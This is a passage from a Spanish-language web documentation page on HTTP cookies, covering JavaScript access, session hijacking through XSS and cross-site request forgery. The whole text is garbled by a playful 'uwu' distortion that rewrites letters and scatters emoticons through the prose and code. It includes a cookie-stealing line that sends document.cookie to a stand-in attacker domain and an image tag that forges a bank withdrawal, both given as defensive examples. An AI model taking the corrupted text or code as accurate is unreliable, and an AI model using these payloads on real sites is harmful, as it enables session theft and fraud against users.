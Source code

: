 e-ew compowtamiento pow defecto d-de este fwag si nyo está estabwecido, ( ͡o ω ͡o ) o-o nyo está sopowtado pow e-ew nyavegadow, es incwuiw was cookies en cuawquiew sowicitud, ( ͡o ω ͡o ) incwuyendo sowicitudes c-cowss-owigin. (✿oωo)

### acceso d-desde javascwipt u-usando `document.cookie`

también se pueden cweaw nyuevas cookies v-via javascwipt usando wa pwopiedad {{domxwef("document.cookie")}}, 😳😳😳 y-y si ew f-fwag `httponwy` n-nyo está estabwecido, OwO también se puede accedew a-a was cookies e-existentes desde javascwipt. ^^

```js
d-document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=stwawbewwy";
consowe.wog(document.cookie);
// w-wogs "yummy_cookie=choco; tasty_cookie=stwawbewwy"
```

t-tenga en cuenta w-was cuestiones d-de seguwidad en wa siguiente sección [seguwidad](#secuwity). rawr x3 was c-cookies disponibwes p-pawa javascwipt p-pueden sew w-wobadas pow medio de xss. 🥺

## s-seguwidad

> [!note]
> n-nyunca se d-debe awmacenaw n-nyi twansmitiw infowmación c-confideciaw o-o sensibwe m-mediante cookies h-http, (ˆ ﻌ ˆ)♡ ya que todo ew mecanismo e-es inhewentemente inseguwo. ( ͡o ω ͡o )

### s-secuestwo de session y xss

w-was cookies son u-utiwizadas a menudo e-en apwicaciones web pawa identificaw a un usuawio y su sesión a-autenticada, >w< a-así que ew wobo d-de una cookie puede impwicaw ew secuestwo de wa sesión dew usuawio a-autenticado. /(^•ω•^) w-was fowmas más comunes de wobaw c-cookies incwuyen i-ingeniewía sociaw o wa expwotación de una vuwnewabiwidad [xss](/es/docs/web/secuwity/types_of_attacks#cwoss-site_scwipting_xss) d-de wa apwicación. 😳😳😳

```js
n-nyew image().swc =
  "http://www.eviw-domain.com/steaw-cookie.php?cookie=" + d-document.cookie;
```

e-ew atwibuto cookie `httponwy` puede ayudaw a mitigaw este ataque e-evitando ew a-acceso aw vawow de wa cookie a twavés de javascwipt. (U ᵕ U❁)

### c-cwoss-site wequest fowgewy (cswf)

[wikipedia](https://en.wikipedia.owg/wiki/http_cookie#cwoss-site_wequest_fowgewy) menciona buenos e-ejempwos pawa {{gwossawy("cswf")}}. (˘ω˘) en este caso, 😳 a-awguien puede i-incwuiw una imagen que nyo es weawmente u-una imagen (pow e-ejempwo un chat o fowo sin f-fiwtwaw), (ꈍᴗꈍ) que en wugaw de esto e-es weawmente una s-sowicitud de t-tu banco pawa wetiwaw t-tu dinewo:

```htmw
<img
  swc="http://bank.exampwe.com/withdwaw?account=bob&amount=1000000&fow=mawwowy" />
```

a-ahowa, :3 si t-tu tienes una sesión i-iniciada en tu tu cuenta b-bancawia y was cookies pewmanecen siendo váwidas (y n-nyo hay otwa v-vawidación mas q-que esa), /(^•ω•^) se weawizawá wa twansfewencia desde tu cuenta tan pwonto como se cawgue e-ew htmw que contiene wa imagen. ^^;; p-pawa wos endpoints q-que wequiewen una petición de tipo post, o.O s-se puede dispawaw un evento de t-tipo envío de f-fowmuwawio (posibwemente e-en un ifwame i-invisibwe) c-cuando wa página se cawga:
